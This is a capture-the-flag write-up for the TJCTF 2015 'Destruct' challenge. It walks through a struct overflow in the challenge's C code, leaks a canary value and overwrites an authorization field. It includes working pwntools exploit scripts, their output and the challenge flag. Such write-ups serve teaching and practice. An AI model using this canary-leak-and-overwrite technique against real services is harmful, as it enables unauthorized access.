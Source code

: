 ```yaml
---
layout: post
title: "TJCTF 2015 Destruct"
date: 2015-04-29 01:46:38 -0400
author: [superkojiman]
comments: true
categories: [TJCTF]
---
```


### Solved by superkojiman

Connecting to the target returns a menu: 

```
koji@pwnbox32:~/Desktop/destruct$ nc p.tjctf.org 8085
Commands:

u: Set username.
p: Set password.
m: Set message.
d: Display info.
c: Check authorization.
f: If authorized, print flag.
>
```

Option "f" appears to be what we want. Selecting it returns an error saying that we're not authorized, obviously. If we look at destruct.c, we see that there's a struct P containing the following:

```c
typedef struct P {
    char user[32];
    char pass[32];
    char mess[24];
    int canary;
    int authorized;
} Person;
```

If we look at what happens when we select "f", we see:

```c
case 'f':
    if (p->authorized) {
        printf("Authorized!\nFlag: ");
        FILE *f = fopen("flag","r");
        while ((c2 = fgetc(f)) != EOF) {
            printf("%c",c2);
        }
        fclose(f);
    } else {
        printf("Not Authorized.\n");
    }
    break
```

So the problem is that p->authorized is set to 0 (false), and we need it to be set to greater than 0 (true). Further examination of the code reveals that there's an overflow when entering a message (choosing option "m"). In struct P, the buffer for storing the message is 24 bytes. However, the code responsible for copying the message into that buffer is copying up to 32 bytes: 

```c
char buf[32] = {0};
while (1) {
.
.
.
    case 'm':
        printf("Enter new message.\n");
        read_in(buf);
        memcpy(p->mess,buf,strlen(buf));        // whoops! strlen(buf) returns 32
        break;
```

If we write more than 24 bytes to p->mess, then we can overwrite p->authorized. However, p->canary sits between p->mess and p->authorized, so overwriting p->authorized means we'll also overwrite p->canary. p->canary is a randomly generated 4-byte value and a check is made to see if it's been changed, and if it has, the program quits:

```c
if (canary != p->canary) {
    printf("Error: Canary has been changed.\n");
    return 1;
}
```

The canary is generated once when the program starts and stays the same until the program is restarted. As it turns out, we can leak the canary's value by writing exactly 24 bytes to mess and then selecting the "d" option to display our info. When we display our info, the message will include the canary since p->mess isnt null terminated. Here's the code to leak the canary:  

```python
#!/usr/bin/env python

from pwn import *

r = remote("p.tjctf.org", 8085)
r.recv()

# set message
r.send("m" + "\n")
r.recv()
r.send("A"*24 + "\n")
r.recv()
r.recv()

# display info and leak the canary
r.send("d" + "\n")
msg = r.recv().strip()
r.recv()
canary = msg[len(msg)-4:]
print "canary :", enhex(canary)
```

Let's see it in action: 

```text
koji@pwnbox32:~/Desktop/destruct$ ./leak.py 
[+] Opening connection to p.tjctf.org on port 8085: Done
canary : 414c69e4
[*] Closed connection to p.tjctf.org port 8085
```

Now that we can leak the canary, we can simply enter another message of 24 bytes, followed by our leaked canary, and any value that sets p->authorized to greater than 0. 


```python
#!/usr/bin/env python

from pwn import *

r = remote("p.tjctf.org", 8085)
print r.recv()

# set message
r.send("m" + "\n")
print r.recv()
r.send("A"*24 + "\n")
print r.recv()
print r.recv()

# display info and leak the canary
r.send("d" + "\n")
msg = r.recv().strip()
print r.recv()
canary = msg[len(msg)-4:]
print "canary :", enhex(canary)

# now overwrite authorized member
buf = ""
buf += "A"*24       # message
buf += canary       # leaked canary
buf += p32(0x1)     # set authorized to 1
r.send("m" + "\n")
print r.recv()
r.send(buf + "\n")
print r.recv()
print r.recv()

# get the flag
r.send("f" + "\n")
print r.recv()
print r.recv()
```

Let's do it:

```text
koji@pwnbox32:~/Desktop/destruct$ ./sploit.py 
[+] Opening connection to p.tjctf.org on port 8085: Done
Commands:

u: Set username.
p: Set password.
m: Set message.
d: Display info.
c: Check authorization.
f: If authorized, print flag.

>
Enter new message.

>
>
canary : de073b7c
Enter new message.


>
Authorized!
Flag: 
5truc7byL1ghtn1ng
>
[*] Closed connection to p.tjctf.org port 8085
```

The flag is: 5truc7byL1ghtn1ng
